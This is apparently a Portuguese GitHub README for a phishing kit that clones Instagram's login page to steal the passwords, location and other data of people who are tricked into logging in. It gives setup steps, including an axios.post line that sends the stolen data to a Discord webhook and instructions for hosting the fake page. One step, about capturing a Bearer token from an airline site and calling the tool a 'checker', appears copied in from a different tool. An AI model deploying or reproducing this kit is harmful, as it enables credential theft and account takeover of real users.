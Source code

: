 # 📷 Tela Fake Instagram

A **Tela Fake do Instagram** nada mais seria **um site identico ao site oficial**, porém usado de formas não éticas para obter credenciais de qualquer pessoa, desde que ela caia na sua engenharia social e faça a tentativa de login pelo site falso. Essa tela fake foi feita em **HTML** para **obter informações sobre a conta** + **localização** e **outros** !

## 📩 Como recebo as informações ?

- **Para receber o login, senha & outros coletado pelo Site Falso, é preciso ter um Servidor dentro do Discord**.
- **Abra o `index.html` e troque o exemplo pela sua `Webhook Válida.` Exemplo**:
  - `const response = await axios.post('https://discord.com/api/webhooks/exemplo/1nsaneqy', data);` `(Webhook Fictícia)`
  - **Este código acima poderá ser encontrado na linha ``258``**.

## 🖥 Consigo testar em minha máquina local ?

Claro ! Para testar a **Tela Fake** em seu computador, basta seguir esses processo:

1. Instale o [XAMPP](https://www.apachefriends.org/download.html)

2. Após a instalação, vá até o local aonde o XAMPP foi instalado

3. Dentro da pasta do XAMPP, procure por "htdocs".

4. Apague todo o conteúdo dentro, e cole a `index.html`

5. Abra a `index.html` com o seu Bloco de Notas ou etc. `(Troque a webhook)`

6. Vá até o site da **https://voeazul.com.br/** e capture o `Bearer`

7. Abra o XAMPP, ligue o Apache, e no seu navegador vá até a [localhost](http://localhost/)

8. Pronto! O checker já está configurado para uso <3

## 💻 Quem fortaleceu o código foi:

- 1nsaneqy,
- Equipe Lean7!

